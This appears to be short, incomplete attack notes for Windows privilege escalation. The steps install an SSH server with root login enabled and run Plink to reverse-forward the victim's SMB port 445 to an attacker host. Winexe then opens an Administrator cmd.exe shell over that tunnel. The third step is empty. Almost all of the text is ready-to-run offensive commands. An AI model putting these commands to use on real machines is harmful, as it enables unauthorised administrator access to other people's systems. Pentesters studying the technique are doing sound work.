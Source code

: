 Download Plink  from here 

https://www.chiark.greenend.org.uk/~sgtatham/putty/latest.html



install ssh server == sudo apt install ssh

gedit /etc/ssh/sshd_config

permit root login yes
service ssh restart 
service ssh start 

1) plink.exe -l attacker_username -pw attacker_password -R port_to_be_forwarded 127.0.0.1:445 attacker_IP
2) winexe -U Administrator%PASSWORD //127.0.0.1 "cmd.exe"
3) 

